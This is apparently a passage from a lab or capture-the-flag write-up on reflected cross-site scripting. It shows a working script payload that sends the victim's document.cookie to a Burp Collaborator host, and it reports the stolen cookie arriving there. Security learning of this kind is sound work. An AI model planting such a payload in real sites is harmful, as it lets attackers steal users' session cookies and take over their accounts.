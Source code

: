 I searched for cookie stealing payload and found some resources!

--> I followed [this](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) resource and tried some payloads and finally this payload worked:

```html
<script>
  var i = new Image();
  i.src =
    "https://4puts3q03e1k88lu3twb9agkpbv2jr.burpcollaborator.net/?" +
    document.cookie;
</script>
```

So final request looks like this:

![](Attachments/Pastedimage20220322140740.png)

--> And after forwarding the request let's goto our collaborator client and click `poll now` and boom we got the request !
